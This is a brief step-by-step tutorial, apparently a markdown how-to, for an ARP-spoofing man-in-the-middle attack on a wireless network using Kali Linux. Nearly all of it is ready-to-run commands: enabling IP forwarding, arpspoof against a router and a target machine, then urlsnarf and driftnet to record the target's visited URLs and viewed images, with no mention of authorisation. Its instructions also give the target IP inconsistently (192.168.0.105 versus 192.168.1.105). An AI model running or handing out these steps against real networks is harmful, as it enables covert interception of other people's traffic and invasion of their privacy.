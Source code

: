 Boot / Install Kali

If on virtualbox, you will need a USB wifi stick. Once added, click the usb icon in the bottom right and add the device to your guest OS
![](http://teachthe.net/topclipbox/2016-05-03_22-29-253QLRLY.png)

NOTE - Your network should be in Bridged Adapter mode.


First, we run this so any traffic we intercept is still forwarded on to the internet.
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Next we run this:
```shell
airmon-ng
```

You should see something like this
![](http://teachthe.net/topclipbox/2016-05-03_22-31-4102HNZ4.png)

From the above, get your Interface name and use it below in place of 'wlan0'

Next we have these two commands to capture traffic from the router->computer, and then computer->router
```
arpspoof -i wlan0 -t 192.168.0.1 192.168.0.105
arpspoof -i wlan0 -t 192.168.0.105 192.168.0.1
```
Several changes need to be made to these commands.

1) Replace wlan0 with your interface name.

2) Replace 192.168.0.1 with your router IP

3) Replace 192.168.1.105 with our target computer IP

Troubleshooting - if you get error "couldn't arp for host", try disconnecting your wired connection in kali, and using your usb wireless card to connect to the wireless network. Ensure your virtualbox is set to Bridged Adapter mode, and then try pinging the IPs (both router and target)

What next?

To track URLs the target computer is visiting:
```
urlsnarf -i wlan0
```

To track images:
```
driftnet -i wlan0
```
